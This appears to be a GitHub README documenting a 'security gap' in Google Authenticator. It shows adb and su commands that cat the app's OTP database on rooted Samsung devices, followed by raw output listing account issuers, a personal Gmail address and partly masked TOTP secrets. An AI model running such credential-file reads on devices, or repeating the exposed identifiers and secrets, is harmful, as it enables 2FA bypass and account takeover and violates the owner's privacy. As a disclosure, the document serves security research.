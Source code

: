 ## Google Authenticator Security Gap


Commands (Android-Platform-Tools 35.02 Windows 11 x64 24H2) on Rooted S22 (SM-S901B) & Galaxy Tab A (SM-T510)<br>
with Google Authenticator 2 App via Google Play Store<br>

''
adb devices<br>
adb shell<br>
su<br>
cat /data/data/com.google.android.apps.authenticator2/files/accounts/1/otp_database.db<br>
''


##  Galaxy Tab A (SM-T510_DBT_T510XXU5CWA1).
########################################<br>

Microsoft Windows [Version 10.0.26100.3624]<br>
(c) Microsoft Corporation. Alle Rechte vorbehalten.<br>

C:\Users\wg-23>adb devices<br>
* daemon not running; starting now at tcp:5037<br>
* daemon started successfully<br>
List of devices attached<br>
5200xxxxxdf267bb        device<br>


C:\Users\wg-23>adb shell<br>
tdgsi_a64_ab:/ $ su<br>
tdgsi_a64_ab:/ # cat<br> /data/data/com.google.android.apps.authenticator2/files/accounts/1/otp_database.db<br>

�H�Hl�!�tableotp_tableotp_tableCREATE TABLE otp_table(ordering INTEGER PRIMARY KEY, unique_id TEXT UNIQUE NOT NULL, name TEXT NOT NULL, issuer TEXT, secret TEXT,<br> otp_type TEXT, counter INTEGER, timestamp INTEGER, is_deleted INTEGER, algorithm_deleted TEXT NOT NULL, digits_deleted<br> INTEGER)1Eindexsqlite_autoindex_otp_table_1otp_tablW--ctableandroid_metadataand��de_DEtadataCREATE TABLE android_metadata (locale TEXT)<br>
�x�3<br>
3�4f46851739457540000308950174IONOSlwU9YkU1nqQvT4NQJXk2v00000jD440+4arrwLTVqAra6iK5sC2cWiGnq3AXziitht12ka36M4cP<br>
Ztwz<br>
3%�6ea3c21700008035560systemxx23xxFacebookKxHOcp2iC22lGMp00000FEuw7mY3oD3qL4f5tYV7hLMaBRkOE7YuCsNgL/2BC2Vowy/FnugOG8q2<br>
lqGX<br>
3!60048d1000084303127Systemx23xGitHub/MnLeNSQ0BwDcOPd8rPOj+0000hCtin9EtHPpumD1ZUb7qFGMxlZ9TV49bg=<br>
totp��7�<br>
3A�ae149d1000068135011stevenschloeffel@gmail.comGooglefv9W+oXJrA0000F+k8AJCAJCDmaApWrtn7waiLF3j/aqRt6KzyWjWw7zPZhWvcyMSnZ2fxlvYPcE<br>
uEyr
3-�41b0881000067899751system23@HiDriveIONOS94NM270000mfzVqTUSDXF7+m6bYqJE6C6W8f/RJhLRJ3RdOeGK3SRW3F6QbjLHW72GW75YzMG6UL<br>
sqw4<br>
3#!6f9c391000069666298 stevenx23xXDA ForumsmQjLrwuvsauJ1z0000fVxYTmVCESU2aheDQ/xIejHUNDLE1Xs2XArc8tBUA=<br>
totp�p�FHmacSHA1<br>
q�q����34f400003945754571236ea3c21728768035560360048d17030000031273ae149d1728768135011341b08817287678997513    6f9c391000069666298<br>


##  Galaxy S22 (SM-S901B_EUX_S901BXXSDEYB1).
########################################<br>



